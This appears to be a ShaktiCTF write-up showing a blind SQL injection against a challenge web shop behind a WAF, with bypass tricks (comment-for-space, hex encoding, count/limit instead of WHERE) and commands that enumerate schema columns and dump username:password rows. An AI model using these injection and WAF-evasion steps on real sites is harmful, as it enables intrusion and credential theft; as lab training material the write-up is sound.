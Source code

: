 Because the WAF blocks the `WHERE` keyword and some special chars like `[ &=]`, we need to:
* replace all spaces with `/**/`
* either remove the `=` and `&` chars from our regexp search [pattern](https://github.com/lanjelot/albatar/blob/master/albatar.py#L511) or use [hex-encoding](https://github.com/lanjelot/albatar/blob/master/albatar.py#L522)
* use the `IN` keyword instead of `=` (although we won't need to)
* juggle with `count()` and `limit` instead of using `where`

Demo:
```console
$ python shakti.py -q "select count(concat_ws(0x3a,table_schema,table_name,column_name)) from information_schema.columns"
609
```

We know the tables we are interested in will be towards the last records after all the `information_schema` tables. We can find the offset via trial & error:
```console
$ python shakti.py -q "select concat_ws(0x3a,table_schema,table_name,column_name) from information_schema.columns limit 605,1"
info^C
$ python shakti.py -q "select concat_ws(0x3a,table_schema,table_name,column_name) from information_schema.columns limit 606,1"
cart:accounts:id
```

Sweet let's enum the other columns
```console
$ python shakti.py -q "select concat_ws(0x3a,table_schema,table_name,column_name) from information_schema.columns limit 607,1"
cart:accounts:username
$ python shakti.py -q "select concat_ws(0x3a,table_schema,table_name,column_name) from information_schema.columns limit 608,1"
cart:accounts:password
```

How many users are there?
```console
$ python shakti.py -q "select count(concat_ws(0x3a,username,password)) from cart.accounts"
2
```

Let's dump it all:
```console
$ python shakti.py -q "select concat_ws(0x3a,username,password) from cart.accounts limit 0,1"
test:test@dumbhack5
$ python shakti.py -q "select concat_ws(0x3a,username,password) from cart.accounts limit 1,1"
admin:shaktictf{7h3_w4r_0f_sql1_h4s_b3gun}
```

Flag was `shaktictf{7h3_w4r_0f_sql1_h4s_b3gun}`.

Just FYI:
```
$ python shakti.py -b --current-db --current-user --hostname --dbs --user
03:25:41 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2021-04-05 03:25 AEST
03:25:41 albatar - Executing: 'SELECT VERSION()'
5.7.33-0ubuntu0.18.04.1
03:26:15 albatar - Executing: 'SELECT CURRENT_USER()'
dbadmin@localhost
03:26:40 albatar - Executing: 'SELECT DATABASE()'
cart
03:26:48 albatar - Executing: 'SELECT @@HOSTNAME'
web-sql1
03:27:01 albatar - Executing: ('SELECT COUNT(DISTINCT(grantee)) FROM information_schema.user_privileges', 'SELECT DISTINCT(grantee) FROM information_schema.user_privileges LIMIT ${row_pos},1')
03:27:04 albatar - count: 1
'dbadmin'@'localhost'
```